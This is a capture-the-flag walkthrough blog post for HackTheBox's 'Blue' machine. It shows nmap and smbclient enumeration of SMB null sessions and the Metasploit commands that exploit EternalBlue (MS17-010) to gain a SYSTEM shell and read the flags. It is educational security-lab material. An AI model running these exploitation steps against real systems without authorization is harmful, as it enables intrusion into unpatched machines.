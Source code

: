 ```yaml
---
title: "Blue | HackTheBox Walkthrough"
date: 2025-06-10
excerpt: Walkthrough of HTB’s Blue, covering SMB enumeration, null sessions, and EternalBlue (MS17-010) exploitation.
categories:
  - htb               
header:
  teaser: /assets/images/htb/blue/blue.png
---
```


<img src="/assets/images/htb/blue/blue.png"
     alt="Alt text describing the image"
     class="align-center"      
     style="max-width: 600px;" />

# Overview
Blue is considered a beginner-friendly box on Hack The Box; its purpose was to teach a valuable lesson about how unpatched systems can become vulnerable. The EternalBlue exploit had severe implications worldwide and has been used in large-scale ransomware attacks. It targeted Windows Server Message Block (SMB) protocol, which is used for shared access to files, printers, and other network resources. Why was it so critical? Windows is one of the most widely used operating systems globally, and this exploit, which leveraged the SMBv1 bug, enabled remote code execution attacks on the target system. 

---

## Full Port Scan and Initial Enumeration

I kicked off with a full TCP port scan using aggressive timing to identify open services quickly.

---

```bash
nmap -sCV -p- <ip> --min-rate=1000 --min-parallelism=1000 -v
```

**Key Flags:**
- `-sC`: runs default Nmap scripts
- `-sV`: enables version detection
- `-p-`: Scans all 65535 ports
- `--min-rate=1000`: sends packets faster than the default rate.
- `--min-parallelism=1000`: sends probes in parallel for speed.

> I only use `--min-rate` and `--min-parallelism` in CTF environments to speed up discovery.

```
Nmap scan report for 10.129.13.80
Host is up (0.067s latency).
Not shown: 65526 closed tcp ports (reset)
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2025-06-10T23:29:27+01:00
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-06-10T22:29:29
|_  start_date: 2025-06-10T22:12:45
|_clock-skew: mean: -4h40m37s, deviation: 34m37s, median: -4h20m38s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
```
From the nmap result we have 9 ports that are open which are all MSRPC besides 2.  

Ports `139` and `445` which are used for SMB.  

Looking further down in host script results we see that windows 7 professional is installed, and the computer name is Haris-PC.

---

## SMB Enumeration and Null Session Access

After seeing ports `139` and `445` open, I decided to check for unauthenticated SMB Access:

```bash
smbclient -L \\\\ip\\ -N
```


**Key Flags:**
- `-L`: This option allows you to list the existing shares.
- `-N`: Allows us to try and connect to SMB without credentials (Null Session)  

![](/assets/images/htb/blue/2smb.png)

This tests for null session access, and it worked! I was able to list all the available shares for us.  

To further enumerate share permissions, I ran:

```bash
nmap <ip> -p 445 --script=smb-enum-shares
```
This confirmed that several shares are readable and that SMBv1 was active. This is generally a red flag on older Windows systems due to its easy exploitation.

![](/assets/images/htb/blue/3nmapsmb.png)

---

## Finding The Vulnerability: MS17-010

From our Nmap scan, we can see that the target is running Windows 7 Pro, and SMBv1 is enabled. After a quick Google search for `Windows 7 Professional 7601 vulnerability`, we were met with several pages, including Microsoft talking about MS17-010, which is the EternalBlue exploit, which was a remote code execution vulnerability.

![](/assets/images/htb/blue/4googleblue.png)

---

## Exploiting EternalBlue with Metasploit

```bash
msfconsole
search eternalblue
use exploit/windows/smb/ms17_010_eternalblue
```
Instead of typing the whole exploit path, as I just showed, we could also use the corresponding number. In my case, it was 0

![](/assets/images/htb/blue/5msf.png)

After this, I set up the required options by typing 'options' and filling in the RHOST, LHOST, and LPORT fields.

**key Flags**
- `RHOST`: is the remote host, which in our case is the HTB IP.
- `LHOST` is for our local host.
- `LPORT`: is for the port we want to use

```bash
set RHOST 10.129.13.80
set LHOST <OUR  IP>
set LPORT 4444 # or whichever port you would like to use
```

![](/assets/images/htb/blue/6setup.png)

I ran `check` to verify if the host was vulnerable, and metasploit confirmed it.

```bash
check
```

![](/assets/images/htb/blue/7check.png)

After confirmation, I typed 'run' and the exploit executed. Once we see `meterpreter>` we can type shell to get a shell and we are in as system!

```bash
run
```

![](/assets/images/htb/blue/8run.png)

```bash
shell
```

![](/assets/images/htb/blue/9pwnd.png)

---

## Post-Exploitation and Flags

With full system access I was able to retrieve the user and root flags by going through Haris' folder and administrator.
Both flags reside on the desktop of each user.

```bash
cd C:\Users
dir

cd Haris\Desktop
type user.txt
```

![](/assets/images/htb/blue/10user.png)

```bash
cd ..\Administrator\Desktop
type root.txt
```

![](/assets/images/htb/blue/11root.png)

Flags obtained:

- `user.txt`: ✔️  
- `root.txt`: ✔️

---

## Key Takeaways
- Always check for null sessions when SMB is open
- SMBv1 is still in use and can be easily exploited, as we have demonstrated.
- Always use multiple tools! In our case, we did use smbclient with nmap to get a better picture early on.

More info: [MS17-010 (CVE-2017-0144)](https://nvd.nist.gov/vuln/detail/CVE-2017-0144)

---


